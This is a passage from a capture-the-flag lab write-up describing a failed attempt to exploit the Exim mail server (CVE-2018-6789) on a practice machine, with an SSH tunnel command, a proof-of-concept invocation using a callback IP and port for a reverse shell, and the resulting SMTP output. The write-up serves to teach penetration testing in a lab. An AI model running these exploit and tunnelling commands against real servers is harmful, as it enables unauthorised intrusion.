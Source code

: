 

No result means this isn't vulnerable.

#### CVE-2018-6789 - Fail

I also tried CVE-2018-6789. It's a super complex vulnerability that
involves a heap overflow. But there are
[POCs](https://www.exploit-db.com/exploits/45671), so I can point and
fire and see if I get lucky.

I ran it, and it asks for callback ip, port, and target.



    root@kali# python exim_exp.py 
    exim_exp.py <cb> <cbport> <target>



Since the port is only listening on localhost, I'll create an ssh
tunnel:



    root@kali# ssh djmardov@10.10.10.117 -L 25:localhost:25



Now I can talk to localhost port 25 on my box, and it will reach
localhost 25 on Irked.

I'll start a `nc` listener, and give it a run:



    root@kali# python exim_exp.py 10.10.14.14 443 127.0.0.1
    check vuln
    220 irked ESMTP Exim 4.84_2 Thu, 04 Apr 2019 09:53:42 -0400
    250-irked Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ...
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    250-irked Hello BBBBBBBBBBBBBBBB [::1]
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    500 unrecognized command
    250-irked Hello DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD ...
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    NO AUTH PLAIN CONFIG
    false



Unfortunately, silence on `nc`. If anyone wants to figure out either how
to get this working or why it doesn't work, I'd love to hear it!





